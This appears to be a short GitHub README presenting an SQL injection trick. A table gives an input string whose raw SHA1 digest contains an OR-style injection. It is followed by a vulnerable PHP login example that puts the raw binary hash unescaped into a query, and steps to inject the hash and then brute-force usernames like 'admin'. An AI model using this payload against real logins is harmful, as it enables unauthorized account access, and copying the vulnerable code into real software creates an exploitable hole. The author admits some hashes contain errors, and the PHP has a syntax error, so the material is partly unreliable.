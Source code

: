# SHA1_RAW_SQL

# EDIT SOME OF THOSE HASHES CONTAIN ERRORS.... FIXING CONTINUES.
| Hash string                | SHA1 Hash                                     | Raw output            |Query |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:----:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'||'8�vjc\�     |'||'1 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST'log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e, (admin, 4dm1n and so on)
* THe third step is to buy me a coffee.
